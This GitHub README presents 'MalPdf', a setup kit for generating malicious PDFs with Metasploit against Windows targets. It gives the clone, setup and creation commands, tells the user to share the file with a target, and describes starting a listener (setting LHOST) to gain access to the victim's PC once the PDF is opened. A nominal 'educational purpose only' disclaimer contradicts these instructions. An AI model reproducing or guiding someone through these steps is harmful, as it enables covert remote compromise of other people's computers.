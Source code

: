# MalPdf

This is an easy to setup malicious pdf generator which uses metasploit framework.

##This works only with Linux##

This can exploit only windows
Requirements:
      1Gb data
      1Gb storage space

#This is not for exploiting other's PCs and this is for educational purpose only
First start your command prompt or power shell

Type the command:

$apt install git

$git clone https://github.com/Nicko15/MalPdf.git

$cd MalPdf


Now run the 'setup.sh' file by typing:

$./setup.sh

All the needed packages and frameworks will be downloaded

Now to create malicious pdf and use, run the 'create.sh'file by typing:

$sudo bash create.sh

 You will get a file path and you can shere the file to your target

To listen to the pdf, type:

$sudo bash listen.sh

$set LHOST <your_ip>

$run

Now your pc will start listening. As soon as your target opens the pdf, you will get access over his pc
